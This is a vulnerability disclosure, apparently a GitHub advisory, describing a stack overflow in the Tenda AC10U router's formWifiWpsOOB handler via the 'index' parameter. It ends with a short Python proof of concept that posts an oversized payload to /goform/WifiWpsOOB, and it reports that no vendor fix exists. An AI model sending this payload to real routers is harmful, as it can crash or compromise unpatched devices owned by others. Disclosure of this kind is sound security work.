

# Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the index parameter in the formWifiWpsOOB function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formWifiWpsOOB" retrieves the parameter "index" using "websGetVarWithValidate" , the value of "index" is formatted using the sprintf function, concatenated with "%s;%s" strings, and stored in "tmp". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "tmp".



## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiWpsOOB'
payload = {
    "index": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
